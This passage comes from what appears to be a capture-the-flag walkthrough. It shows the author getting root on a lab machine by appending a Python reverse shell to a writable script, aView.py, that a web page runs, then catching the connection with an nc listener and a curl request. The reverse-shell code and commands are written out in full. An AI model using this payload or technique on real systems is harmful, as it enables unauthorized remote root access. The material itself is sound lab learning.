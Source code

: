 And I can see that it makes a `GET` request to `run.php`, and at this point I was stuck, but I wanted to avoid using the `execute` button because of all the clues, and the note above says that with that, Max could execute his `plan`, and in zorin's vision says that the plan is to `destroy`, and the theme is that I should avoid that `plan`, but I do not what else to do, then I decide to see the behavior of the `execute` button. When I click on it, then I get the error:
```
The requested resource /7f98ca7ba1484c66bf09627f931448053ae6b55a/
7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php? was not found
on this server.
```
But I notice that the hash appears twice. When I access `/7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php`, then I see:

![evidence](./static/21-run.png)

But ignoring the gif, the text is the same as found in `aView.py`, And maybe `run.php` call that file, and the user `jenny` can modify that file. When I add another print to see the behavior:
```shell
jenny@view:/home/max$ echo 'print "can I exploit you?"' >> aView.py
```
And I access `/7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php`, then I see that the string 'can I exploit you?' appears on the page. When I look the [Reverse Shell Generator](https://www.revshells.com/) for a payload for `Python2`, and I write it in the `aView.py` file:
```python
...SNIPPED...
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.2.31",1235))
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; pty.spawn("bash")
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1235
```
And I make the `GET` request to the `/<hash>/run.php`:
```shell
$ curl "http://192.168.2.30:8191/
> 7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php"
```
Then I get the root shell:
